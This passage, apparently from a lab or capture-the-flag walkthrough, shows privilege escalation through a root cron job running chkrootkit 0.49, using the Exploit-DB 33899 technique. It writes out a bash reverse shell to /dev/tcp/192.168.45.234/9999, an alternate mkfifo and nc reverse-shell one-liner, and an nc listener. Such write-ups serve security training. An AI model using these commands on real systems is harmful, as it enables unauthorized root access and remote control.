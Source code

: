 ```
2024-08-09 13:55:56 (1.34 MB/s) - ‘pspy64’ saved [3104768/3104768]
```

```
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~/tmp$ chmod +x pspy64
```

```
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~/tmp$ ./pspy64

<SNIP>

2024/08/10 00:14:01 CMD: UID=0     PID=4436   | /bin/sh /root/chkrootkit-0.49/chkrootkit 
2024/08/10 00:14:01 CMD: UID=0     PID=4440   | /bin/sh /root/chkrootkit-0.49/chkrootkit 
2024/08/10 00:14:01 CMD: UID=0     PID=4439   | /bin/sh /root/chkrootkit-0.49/chkrootkit 
2024/08/10 00:14:01 CMD: UID=0     PID=4443   | /bin/sh /root/chkrootkit-0.49/chkrootkit 
2024/08/10 00:14:01 CMD: UID=0     PID=4442   | /bin/sh /root/chkrootkit-0.49/chkrootkit 
2024/08/10 00:14:01 CMD: UID=0     PID=4441   | /bin/sh /root/chkrootkit-0.49/chkrootkit 

<SNIP>
```

It seems that the option we chose earlier set a Cron job. We can exploit this Cron job to gain privileged access.

#### Chkrootkit exploit

We can download the exploit from [Exploit-DB](https://www.exploit-db.com/exploits/33899).

![2](https://github.com/user-attachments/assets/4f40a2d3-eb7c-4172-9b60-bbf13356a26e)

![3](https://github.com/user-attachments/assets/08745b10-09eb-4821-881d-347432a66a22)

Let's follow the steps to reproduce and create a reverse shell file called `update`.

```
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~/tmp$ touch update
```

```bash title="update"
#!/bin/bash

bash -i >& /dev/tcp/192.168.45.234/9999 0>&1
```

```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.45.234 9999 > /tmp/f
```

Set it's permissions as executable.

```
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~/tmp$ chmod +x update
```

Now, we have to set up a `nc` listener and wait for the Cron job to be executed.

```
$ nc -nlvp 9999                     
listening on [any] 9999 ...
```
